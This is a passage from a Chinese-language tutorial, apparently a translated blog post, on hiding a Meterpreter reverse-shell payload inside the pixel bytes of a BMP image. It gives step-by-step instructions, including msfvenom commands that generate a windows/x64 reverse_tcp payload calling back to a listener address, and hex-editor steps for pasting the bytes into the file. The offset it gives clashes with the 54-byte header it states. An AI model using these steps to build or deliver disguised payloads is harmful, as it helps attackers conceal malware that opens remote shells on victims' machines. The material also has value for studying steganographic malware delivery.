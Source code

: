 所以我们的像素有Meterpreter有效载荷：70FF0AC022546F00BE

从图3可以看到，我们有十六进制和十进制，及每个像素的颜色。

[![](https://p3.ssl.qhimg.com/t0190796c971dda7afb.png)](https://p3.ssl.qhimg.com/t0190796c971dda7afb.png)

图3

现在您已了解，对于注入方法，应改变BMP文件中的何处及如何改变。

以手工方式将Meterpreter有效载荷逐步注入BMP文件：

在这一部分，我要谈谈如何以手工方式逐步完成注入：

第1步：首先，您需要一个BMP文件，在Windows中，您需要使用MS Paint绘制一个。

注意：在Windows中只能通过MS Paint完成这些步骤。

从图4中可以看到，我们有一个700 * 2像素的空白BMP文件。

[![](https://p4.ssl.qhimg.com/t01fffbeeeaeab78248.png)](https://p4.ssl.qhimg.com/t01fffbeeeaeab78248.png)

图4：700 * 2像素的BMP文件

现在我们有一个700 * 2像素的空白BMP文件，现在您可以以“24位位图”颜色格式保存此文件。

第2步：您应该在Kali linux中制作Meterpreter有效载荷，通过其中一个命令，您可以获得Meterpreter有效载荷：



```
msfvenom -a x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 -f c &gt; payload.txt
msfvenom -a x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 -f num &gt; payload.txt
```

第3步：现在您应该将您第2步中的有效载荷注入到第1步中制作的BMP文件中，kali linux中通过hexeditor命令，Windows中通过“Hexeditor NEO”工具。

在图5中，您可以在更换有效载荷之前看到您在第1步中制作的BMP文件的hex editor NEO。

[![](https://p1.ssl.qhimg.com/t011f72b385b9acb8e2.png)](https://p1.ssl.qhimg.com/t011f72b385b9acb8e2.png)

图5

在图6中可以看到，我们有3个像素带有这些有效载荷“70FF0A-C02254-6F00BE”

[![](https://p4.ssl.qhimg.com/t019d849d4240872b05.png)](https://p4.ssl.qhimg.com/t019d849d4240872b05.png)

图6

现在您可以看到，当您想将这些有效载荷注入到图像（本例中为BMP）中时BMP中会发生什么。

为此，在该步骤中，您应该按图7所示在Kali linux中通过hexeditor命令编辑此BMP文件（第1步）。

此时，您应该使用工具Copy-Paste从“偏移36”到最后将Meterpreter有效载荷注入文件。偏移36是BMP头之后的第一个字节（BMP头是54字节），也就是图5中绿线部分。

注意：在更改BMP文件前，您应该将您的Meterpreter有效载荷从类型“0xfc”更改为“fc”，所以您的有效载荷应该如图9中的“Pay.txt”文件所示。（重要）

现在您应该从“Pay.txt”复制有效载荷字符串，然后粘贴到位图文件，从偏移36到最后，如图7和图8所示。
